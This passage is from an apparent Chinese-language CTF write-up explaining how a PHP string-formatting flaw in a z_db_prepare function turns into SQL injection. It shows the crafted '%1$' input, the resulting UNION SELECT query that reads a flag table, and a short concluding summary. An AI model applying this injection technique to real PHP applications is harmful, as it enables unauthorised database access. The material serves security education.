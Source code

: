 执行完`$additional = z_db_prepare("and 'username'= %s ", $username);`,我们得到`$additional `是`and 'username'= '%1$%s and 0 union select 1,1,1,flag from flag#'`

![](img/20180121-6.jpg)

执行完`$sql = z_db_prepare(..)`，我们得到的SQL语句是`SELECT * FROM z_articles where 'status'=1 and 'username'= '1' and 0 union select 1,1,1,flag from flag#' `，这样就存在SQL注入了，我们最终就得到了payload。

![](img/20180121-7.jpg)

页面上显示flag：

![](img/20180121-8.jpg)

## 总结
总的来说，这是一道考察PHP字符串格式化漏洞非常好的一套代码。通过这道代码能够加强对此类漏洞的理解。